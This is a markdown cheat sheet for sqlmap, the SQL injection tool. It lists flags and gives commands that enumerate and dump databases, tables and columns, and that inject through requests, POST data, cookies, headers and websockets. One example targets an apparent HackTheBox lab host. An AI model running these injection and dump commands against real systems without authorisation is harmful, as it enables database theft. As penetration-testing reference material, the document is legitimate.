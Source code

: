 ```yaml
---
icon: sword
---
```


# SQLmap

{% hint style="info" %}
### <mark style="color:purple;">Operators</mark>

<mark style="color:orange;">**`--batch`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Non interactive mode.</mark>

<mark style="color:orange;">**`--dbms`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Type of db being used (Ex.</mark> <mark style="color:orange;">**`mysql`**</mark><mark style="color:purple;">)</mark>

<mark style="color:orange;">**`--threads`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Goes from</mark> <mark style="color:orange;">**`1`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`10`**</mark><mark style="color:purple;">.</mark>

***

### <mark style="color:purple;">Data</mark>

* <mark style="color:purple;">To retrieve everything:</mark>

```sh
--all --dump
```

<mark style="color:orange;">**`--dbs`**</mark> <mark style="color:purple;">-> List all the databases.</mark>

* <mark style="color:purple;">To look at the</mark> <mark style="color:orange;">**`tables`**</mark> <mark style="color:purple;">of a specific database:</mark>

```sh
-D database --tables
```

* &#x20;<mark style="color:purple;">Repeat the same process for</mark> <mark style="color:orange;">**`columns`**</mark><mark style="color:purple;">:</mark>

```sh
-D database -T table --columns
```

* <mark style="color:purple;">For</mark> <mark style="color:orange;">**`dumping`**</mark> <mark style="color:purple;">the data:</mark>

```sh
-D database -T table --dump
```

* <mark style="color:purple;">Or dump just one column:</mark>

```sh
-D database -T table -C column --dump
```

***

### <mark style="color:orange;">**`--level`**</mark>

<mark style="color:purple;">This option sets the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**level**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">of tests, with values ranging from</mark> <mark style="color:orange;">**`1`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`5`**</mark> <mark style="color:purple;">(the default is level 1).</mark>

* <mark style="color:orange;">**`Level 1`**</mark><mark style="color:purple;">: Basic tests, only the most common and least intrusive SQL injection tests are performed.</mark>
* <mark style="color:orange;">**`Level 2-4`**</mark><mark style="color:purple;">: These levels increase the range and types of tests performed, with more advanced and varied testing.</mark>
* <mark style="color:orange;">**`Level 5`**</mark><mark style="color:purple;">: Perform the most comprehensive set of tests, including advanced and highly invasive tests. It increases the risk of being detected or causing issues on the target system.</mark>

***

### <mark style="color:orange;">`--risk`</mark>

<mark style="color:purple;">This option sets the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**risk**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">level of tests, with values ranging from</mark> <mark style="color:orange;">**`1`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`3`**</mark> <mark style="color:purple;">(the default is 1).</mark>

* <mark style="color:orange;">**`Risk 1`**</mark><mark style="color:purple;">: Basic, low-risk tests that are less likely to cause harm or be detected.</mark>
* <mark style="color:orange;">**`Risk 2`**</mark><mark style="color:purple;">: Performs potentially more intrusive or advanced techniques.</mark>
* <mark style="color:orange;">**`Risk 3`**</mark><mark style="color:purple;">: Attempt</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**high-risk tests**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">that could be more aggressive, such as testing for blind injections, time-based techniques, or dropping and modifying tables.</mark>


{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`HTTP`</mark>

* <mark style="color:purple;">When working with HTTP request is good practice to directly save the request in to a file and use the</mark> <mark style="color:orange;">**`-r`**</mark> <mark style="color:purple;">option.</mark>
* <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`--force-ssl`**</mark> <mark style="color:purple;">when working with</mark> <mark style="color:orange;">**`HTTPS`**</mark><mark style="color:purple;">.</mark>

{% code title="Initiates the injection test" %}
```sh
sqlmap -r login.request --force-ssl --batch
```
{% endcode %}

***

* <mark style="color:purple;">When working with</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">requests you need to use the option</mark> <mark style="color:orange;">**`--data`**</mark><mark style="color:purple;">**:**</mark>

```sh
sqlmap -u "http://example.com" --data "username=*&password=*"
```

***

* For cookies:

```sh
sqlmap  -u "http://example.com" --cookie "cookie=INJECTION"
```

***

### <mark style="color:purple;">Headers</mark>

```sh
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
```

```sh
sqlmap -u "http://example.com" --headers="referer:*"
```

***

### <mark style="color:purple;">Methods</mark>

{% code title="PUT" %}
```sh
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Websockets</mark>

* <mark style="color:purple;">Install the python</mark> <mark style="color:orange;">**`websocket-client`**</mark> <mark style="color:purple;">module.</mark>
* <mark style="color:purple;">Indicate the</mark> <mark style="color:orange;">**`port`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`data`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
```
{% endcode %}
{% endhint %}

